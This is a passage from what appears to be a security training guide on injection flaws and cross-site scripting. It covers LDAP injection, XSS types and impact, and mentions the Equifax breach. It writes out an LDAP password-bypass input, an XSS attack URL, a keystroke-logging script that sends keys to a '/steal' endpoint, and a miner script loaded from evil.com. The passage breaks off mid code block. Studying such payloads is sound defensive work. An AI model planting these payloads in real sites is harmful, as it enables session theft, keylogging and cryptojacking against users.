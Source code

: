 3. **LDAP Injection**
   ```
   (&(uid="+username+")(password="+password+"))
   
   # Attack: username = admin)(|(password=*
   # Bypasses password check
   ```

#### Business Impact:
- Complete system compromise
- Data theft or corruption
- Service disruption
- Regulatory violations

#### Real-World Example:
The 2017 Equifax breach affecting 147 million people was caused by an injection vulnerability in Apache Struts, resulting in $1.4 billion in costs.

### 16.2 Cross-Site Scripting (XSS) Deep Dive

#### XSS Categories:

1. **Stored XSS (Persistent)**
   - Malicious script stored in database
   - Executes for every user viewing the content
   - Most dangerous type
   
2. **Reflected XSS (Non-Persistent)**
   - Script in URL parameters
   - Requires social engineering
   - Common in search functions
   
3. **DOM-Based XSS**
   - Client-side vulnerability
   - Never touches the server
   - Harder to detect

#### Attack Scenarios:
```javascript
// Vulnerable code
document.getElementById('welcome').innerHTML = 
  'Hello ' + getUrlParameter('name');

// Attack URL
https://site.com?name=<script>
  steal_cookies();
  redirect_to_phishing();
</script>

// Impact: Session hijacking, phishing
```

#### Advanced XSS Payloads:
```javascript
// Keylogger
<script>
document.onkeypress = function(e) {
  fetch('/steal?key=' + e.key);
}
</script>

// Cryptocurrency miner
<script src="https://evil.com/mine.js"></script>

// Defacement
<script>
```